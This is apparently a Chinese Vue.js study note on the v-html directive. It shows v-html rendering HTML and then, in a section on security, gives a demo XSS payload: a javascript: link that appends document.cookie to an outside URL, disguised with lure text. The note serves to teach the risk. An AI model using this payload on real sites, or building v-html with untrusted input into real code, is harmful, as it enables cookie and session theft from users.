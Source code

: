 相对于v-text来说，v-html可以解析字符串中的html标签：

```html
<body>
    <!-- 准备一个容器 -->
    <div id='root'>
        <!-- 将属性的所有文本信息替换当前标签的内容 -->
        <div v-html='str'></div>
    </div>

    <script type="text/javascript">
        new Vue({
            el: '#root',
            data: {
                str: '<h3>你好啊！</h3>'
            }
        });
    </script>
</body>
```



执行结果：

![image-20220907204528054](../../../md-photo/image-20220907204528054.png)



#### v-html安全问题

cookie的工作流程：

![image-20220907205511790](../../../md-photo/image-20220907205511790.png)



cookie不能跨浏览器使用：

![image-20220907205655420](../../../md-photo/image-20220907205655420.png)



浏览器查看cookie信息：

![image-20220907210016558](../../../md-photo/image-20220907210016558.png)



代码演示：

```html
<body>
    <!-- 准备一个容器 -->
    <div id='root'>
        <!-- 将属性的所有文本信息替换当前标签的内容 -->
        <div v-html='str'></div>

        <div v-html='href'></div>
    </div>

    <script type="text/javascript">
        new Vue({
            el: '#root',
            data: {
                str: '<h3>你好啊！</h3>',
                href: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你要的资源了，快来！</a>'
            }
        });
    </script>
```